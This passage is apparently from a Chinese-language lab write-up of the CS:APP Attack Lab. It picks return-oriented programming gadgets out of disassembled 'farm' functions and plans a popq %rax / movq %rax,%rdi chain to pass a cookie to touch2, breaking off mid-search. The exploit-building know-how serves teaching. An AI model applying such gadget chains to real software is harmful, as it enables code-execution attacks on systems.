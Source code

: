 ```c
setval_237:
  4019ae:	c7 07 [48 89 c7] c7 	movl	$3351742792, (%rdi)
  4019b4:	[c3] 	retq

setval_424:
  4019b5:	c7 07 54 c2 [58] 92 	movl	$2455290452, (%rdi)
  4019bb:	[c3] 	retq

setval_470:
  4019bc:	c7 07 63 48 8d c7 	movl	$3347925091, (%rdi)
  4019c2:	[c3] 	retq

setval_426:
  4019c3:	c7 07 [48 89 c7] [90] 	movl	$2428995912, (%rdi)
  4019c9:	[c3] 	retq

getval_280:
  4019ca:	b8 29 [58] [90] [c3] 	movl	$3281016873, %eax
  4019cf:	[c3] 	retq
```

根据Writeup给出的编码表可知，在上述代码中，可以使用的字节序列（已使用中括号标出）有：

* `58`：对应指令`popq %rax`；
* `90`：对应指令`nop`
* `c3`：对应指令`ret`
* `48 89 c7`：对应指令`movq %rax, %rdi`。

思路：将cookie值存放在寄存器%rax中，然后将再将%rax中的值复制到%rdi中，作为touch2的入参。汇编代码如下：

```assembly
popq %rax
ret
movq %rax, %rdi
ret
```

* 先看`popq %rax`，根据Writeup给出的编码表，可知其对应的字节序列为：

```assembly
popq %rax       => 58
```

`58`共出现了三次，地址分别为`4019ab`、`4019b9`以及`4019cc`：

```assembly
addval_219:
  4019a7:	8d 87 51 73 [58] 90 	leal	-1873251503(%rdi), %eax
  4019ad:	c3 	retq

setval_424:
  4019b5:	c7 07 54 c2 [58] 92 	movl	$2455290452, (%rdi)
  4019bb:	c3 	retq

getval_280:
  4019ca:	b8 29 [58] 90 c3 	movl	$3281016873, %eax
  4019cf:	c3 	retq
```
